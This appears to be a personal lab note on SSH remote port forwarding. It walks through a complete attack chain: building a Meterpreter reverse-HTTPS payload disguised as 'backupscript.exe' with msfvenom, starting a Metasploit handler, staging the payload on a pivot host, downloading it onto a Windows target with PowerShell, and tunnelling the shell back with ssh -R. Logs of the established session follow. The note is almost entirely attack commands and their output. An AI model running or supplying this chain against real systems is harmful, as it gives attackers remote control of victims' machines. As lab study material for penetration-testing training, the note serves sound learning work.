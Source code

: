 ![[Pasted image 20240731172919.png]]
#### Creating a Windows Payload with msfvenom
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
#### Configuring & Starting the multi/handler
```msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8000
run
```
#### Transferring Payload to Pivot Host
```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```
#### Starting Python3 Webserver on Pivot Host
```shell
python3 -m http.server 8123
```
#### Downloading Payload from Windows Target
```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\users\victor\backupscript.exe"
```
#### Using SSH -R
```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
#### Viewing the Logs from the Pivot
```shell
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```
#### Meterpreter Session Established
```shell-session
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500
```
![[Pasted image 20240731173222.png]]